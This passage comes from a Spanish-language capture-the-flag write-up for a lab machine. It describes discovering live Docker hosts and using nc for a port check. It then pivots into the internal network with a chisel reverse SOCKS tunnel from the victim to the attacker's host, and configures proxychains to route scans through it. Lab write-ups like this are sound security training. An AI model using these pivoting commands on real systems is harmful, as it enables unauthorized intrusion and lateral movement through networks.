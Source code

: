 Dándole permisos de ejecución y ejecutándolo obtenemos lo siguiente:

```
/tmp ## ./hostDiscovery.sh  172.17.0
[*] Host activo encontrado: 172.17.0.1
[*] Host activo encontrado: 172.17.0.2
[*] Host activo encontrado: 172.17.0.3
[*] Host activo encontrado: 172.17.0.4
[*] Host activo encontrado: 172.17.0.5
[*] Host activo encontrado: 172.17.0.6
[*] Host activo encontrado: 172.17.0.7
[*] Host activo encontrado: 172.17.0.8
[*] Host activo encontrado: 172.17.0.9
```

Estas son las ips del segmento de red **172.17.0.0/24** que se encuentran activas. Normalmente, la ip **172.17.0.1** suele ser de una de las interfaces de la máquina víctima (docker asigna por defecto la ip acabada en 1). De hecho, sabiendo que la 10.10.11.164 tenía abierto el puerto 22, podemos comprobar si la 172.17.0.1 también lo tiene con el comando ```nc -zv 172.17.0.1 22```. Efectivamente, si lo tiene.

#### Consiguiendo conexión con la ip 172.17.0.1 

Voy a utilizar la herramienta [chisel](https://github.com/jpillora/chisel), que permite hacer ***port forwarding***, para tener conexión desde mi equipo de atacante a la 172.17.0.1 y poder así analizar los sus puertos abiertos. Recordemos que aunque la ip 172.17.0.1 y 10.10.11.164 pertenezcan a la misma máquina, no tiene por que dar el mismo resultado el escaneo de puertos abiertos. A lo mejor hay implementado algún waf o alguna regla por iptables que no nos permite ver algunos puertos abiertos escaneando la ip 10.10.11.164.

Por lo tanto, en mi máquina me descargaré el chisel de 64 bits y lo ejecutaré de la siguiente manera:

<img src="/photos/2022-10-08-OpenSource-WriteUp/chiselServer.png" alt="drawing"  />  

En la máquina victima, ejecutaremos el chisel de 32 bits de la siguiente forma:

```python
/tmp ## ./chisel32 client 10.10.14.12:1234 R:socks
2022/10/08 10:42:18 client: Connecting to ws://10.10.14.12:1234
2022/10/08 10:42:21 client: Connected (Latency 76.345546ms)
```

Estamos estableciendo un tipo de conexión ***SOCKS***. Esto nos permitirá tener acceso completo a la ip **172.17.0.1** a través del puerto **1080** de nuestro ***localhost***.

Por último nos faltará configurar la herramienta ***proxychains*** para escanear sus puertos pero pasando por el localhost:1080. Su archivo de configuración lo podemos encontrar en la ruta ***/etc/proxychains.conf***. En caso de no tenerlo se tendrá que instalar la herramienta. Deberemos de introducir al final del archivo la siguiente linea: ```socks5 127.0.0.1 1080```.
